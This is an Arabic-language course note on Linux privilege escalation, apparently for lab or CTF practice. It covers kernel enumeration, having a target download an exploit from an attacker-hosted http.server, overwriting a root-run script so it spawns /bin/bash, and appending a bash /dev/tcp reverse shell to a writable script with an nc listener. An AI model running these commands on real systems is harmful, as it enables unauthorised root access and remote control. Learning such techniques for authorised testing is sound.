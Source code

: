 قبل م تعمل اي حاجه في ال Post-Exploitation  
ابدا بال Linux kernel exploits

# اول سيناريوا انك هتنزل ثغره وثغره دي هتخليك root علي طول

### 1. اول حاجه تعملها انك تعمل الامر ده علشان تعرف نوع جهاز المستخدم 

```
uname -a
```

### 2. ثم تعمل اي الاوامر دي علشان تعرف معلومات علي ال kernel اكثر 

```
lsb_release -a
```
 
 بالاوامر دي انت عرفت معلومات كثير علي ال os

### 3. روح اعمل exploit علي معلومات دي بال [[manual Exploitation]]


### 4. # بعد م نزلت الثغره انت محتاج تشغلها علي جهاز ال target

#### 1.  بروح اعمل ال ip بتاعي يكون موقع 
```
python3 -m http.server
```

#### 2. بخش جوه المجلد tmp ليه لانه بيعمل الاوامر منغير permetions
```
cd tmp
```



#### 3. بروح اخلي الtarget ينزل ملف الثغره من الموقع بتاعي 

```
wget http://192.168.230.251:8000/9542.c
```

#### 4.  شغل الثغره بقي حسب نوع لغه الثغره

شوف الطريقه من ال [[manual Exploitation]]


---

# ثاني سيناريوا انك هتنزل ثغره وثغره دي هتخليك تحط باسورد لل root


### 1. اول حاجه تعملها انك تعمل الامر ده علشان تعرف نوع جهاز المستخدم 

```
uname -a
```

### 2. ثم تعمل اي الاوامر دي علشان تعرف معلومات علي ال kernel اكثر 

```
lsb_release -a
```
 
 بالاوامر دي انت عرفت معلومات كثير علي ال os

### 3. روح اعمل exploit علي معلومات دي بال [[manual Exploitation]]




### 4. # بعد م نزلت الثغره انت محتاج تشغلها علي جهاز ال target

#### 1.  بروح اعمل ال ip بتاعي يكون موقع 
```
python3 -m http.server
```

#### 2. بخش جوه المجلد tmp ليه لانه بيعمل الاوامر منغير permetions
```
cd tmp
```





#### 3. بروح اخلي الtarget ينزل ملف الثغره من الموقع بتاعي 

```
wget http://192.168.230.251:8000/9542.c
```

#### 4.  شغل الثغره بقي حسب نوع لغه الثغره

شوف الطريقه من ال [[manual Exploitation]]

#### 5. وانت بتشغل الثغره هتلاقي بيقولك اعمل باسورد لل root مثال :
![Pasted image 20250315173114.png](attachments/Pasted image 20250315173114.png)
انت اللي عملت الباسورد ف بتروح لل ssh وتحاول تخش باسم ال root والباسورد اللي انا عملته 

---
# ثالث سيناريوا لو لقيت ال root عامل ملف ثغره زي ph .sh .php .c. وتقدر تفتحه وتقراه 

### روح امسح الملف واعمل ملف بنفس الاسم بالظبت 

```
 rm -rf اسم الملف
```
### اكتب الكوده داخله

```
echo 'import os;os.system("/bin/bash");' >> اسم الملف
```
### اخر حاجه محتاج تعمل excution  للملف اعمله بلامر ده
##### روح الاول اعرف مسار الملف من عند ال home
```
 pwd اسم الملف
```
##### اعمل امر ال excution
```
sudo python / home اسم الملف / مسار الملف لحد ال
مثال
sudo python /home/meliodas/bak.py
```

# رابع سيناريوا لو لقيت ملف ثغره زي ph .sh .php .c. عامتا مش شرط ال root هو اللي عامله 
### تروح تحط فيه reverse shell :
#### الخطوات :
##### 1. روح اعمل  reverse shell من الموقع https://www.revshells.com/ 


##### 2. اكتب الامر ده : هيضيف ال reverse shell  لل ملف
```
echo ' اللي عملتهreverse shell ال ' >> filename 

مثال

echo 'bash -i >& /dev/tcp/10.9.2.247/1234 0>&1' >> id.sh
```

##### 3. روح اعمل listen علي ال port اللي عامله في ال reverse shell 

```
nc -lvnp رقم البورت
```

##### 4.  وبعدين نفذ الملف 
شوف الطريقه من ال [[manual Exploitation]]



# اختبر حفظك : [[شرح الكورس لل (Q) Linux kernel exploits]]

